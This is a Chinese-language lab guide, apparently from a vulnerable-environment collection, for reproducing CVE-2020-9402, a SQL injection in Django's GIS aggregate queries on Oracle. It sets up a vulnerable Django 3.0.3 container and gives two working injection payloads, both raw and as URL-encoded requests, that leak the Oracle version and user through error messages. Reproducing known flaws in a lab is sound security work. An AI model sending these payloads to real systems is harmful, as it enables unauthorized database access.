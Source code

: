 # Django GIS SQL注入漏洞（CVE-2020-9402）

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一

首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1`

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1

可见，括号已注入成功，SQL语句查询报错：

![](1.png)

### 漏洞二

访问`http://your-ip:8000/vuln2/`。
在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --`

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

![](2.png)
